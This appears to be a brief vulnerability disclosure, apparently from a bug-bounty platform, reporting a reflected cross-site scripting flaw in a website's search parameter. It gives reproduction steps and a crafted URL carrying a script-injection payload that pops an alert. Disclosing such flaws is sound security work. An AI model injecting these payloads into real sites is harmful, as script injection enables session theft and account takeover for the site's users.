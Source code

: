 *XSS with GET URL parameter* 
Steps to reproduce:
2. Go to https://www.domain/
3. In the search enter: "<script>alert(`OPENBUGBOUNTY`)</script>
4. Submit the search and XSS alert will pop up.

Alternatively visiting this URL will trigger the XSS.
https://www.domain/search.php?suchfeld=%22%3Cscript%3Ealert(%60OPENBUGBOUNTY%60)%3C%2Fscript%3E